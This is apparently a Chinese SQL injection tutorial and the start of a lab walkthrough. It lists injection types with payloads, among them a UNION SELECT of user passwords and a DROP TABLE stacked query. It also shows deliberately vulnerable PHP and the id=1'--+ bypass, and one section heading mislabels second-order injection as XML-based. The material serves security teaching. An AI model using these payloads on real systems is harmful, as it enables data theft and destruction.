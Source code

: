 ## 注入类型总结

以下是常见的 SQL 注入类型及其特点的总结：

### 1.基础 SQL 注入（Classic SQL Injection）

通过直接在输入中插入 SQL 代码，改变原始查询逻辑

* **示例**：输入 `' OR '1'='1` 使条件永远为真

  ```sql
  ' OR '1'='1
  ```

### 2.联合查询注入（UNION-based SQL Injection）

利用 UNION 合并查询结果，获取其他表的数据

* **特点**：要求攻击者能够判断和匹配结果列的数量与类型

  ```sql
  ' UNION SELECT username, password FROM users --
  ```

### 3.盲注（Blind SQL Injection）

服务器没有返回具体错误信息，攻击者通过观察响应的行为推断查询结果

#### 3.1.布尔盲注（Boolean-based Blind Injection）

* **方式**：通过改变条件判断，观察页面返回的变化。

  ```sql
  ' AND 1=1 -- （页面正常）
  ' AND 1=2 -- （页面异常）
  ```

#### 3.2.时间盲注（Time-based Blind Injection）

* **方式**：利用数据库函数（如 `SLEEP()`）使查询延迟，推断结果

  ```sql
  ' AND IF(1=1, SLEEP(5), 0) --
  ```

### 4.错误注入（Error-based SQL Injection）

利用数据库返回的错误信息，获取敏感数据

* **特点**：通过触发错误或函数，直接暴露数据库结构或数据

  ```sql
  ' AND 1=CAST((SELECT @@version) AS INT) --
  ```

### 5.堆查询注入（Stacked Queries Injection）

允许一次执行多个 SQL 语句

* **特点**：需要数据库支持多语句执行（如 ; 分隔）

  ```sql
  '; DROP TABLE users; --
  ```

### 6.基于 XML 的 SQL 注入（Second-Order SQL Injection）

攻击者在初次输入时注入特定字符或语句，等数据被应用后触发注入

* **特点**：数据被存储后，在后续查询时注入生效

### 7.高级注入（Advanced SQL Injection）

结合其他技术（如 JSON、XPath、XML 等）或数据库特性进行复杂攻击



## SQL注入防御策略

* 使用 **参数化查询（Prepared Statements）** 或 ORM
* 验证和过滤用户输入，禁止特殊字符
* 限制数据库用户权限
* 定期检查和修补漏洞



## 第一关

### 源代码分析

```php
$id=$_GET['id'];
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
$result=mysql_query($sql);
```

### 构造攻击 SQL

* 报错注入 : 

  ```sql
  id=1'
  ```

  ```sql
  SELECT * FROM users WHERE id='1'' LIMIT 0,1
  ```

  报错信息 :

  ```
  You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1'' LIMIT 0,1' at line 1
  ```

  尝试注释掉第二个符号 `'` 后 SQL 语句：

  ```sql
  id=1'--+
  ```

  ```sql
  SELECT * FROM users WHERE id='1'-- ' LIMIT 0,1 (通过 URL 解码后，`+`变成空格)
  ```

  值得注意的是：在 SQL 中，`--` 是行注释符，**但在某些数据库（如 MySQL）中，`--` 后面必须跟一个空格才能生效**，上述 SQL 注入语句中之所以在 `--` 后加 `+`，是因为在 SQL 注入中，有时无法直接在 `--` 后加空格（**例如在 URL 参数末尾输入空格符，空格可能被编码或移除**），此时使用 `+` 代替空格，这样可以保证注释符生效，正确注释掉后续内容 .

  * **`+` 在 URL 编码中表示空格，通过 URL 解码后，`--+` 实际变成 `--(空格)`**

  所以说只要能确保注释符生效，SQL注入语句也可写成下述形式，这里的 `s` 可以为任何其它字母，其作用是确保在 URL 编码时前面的空格不被移除.

  ```sql
  id=1'-- s
  ```

  ```sql
  SELECT * FROM users WHERE id='1'-- s' LIMIT 0,1
  ```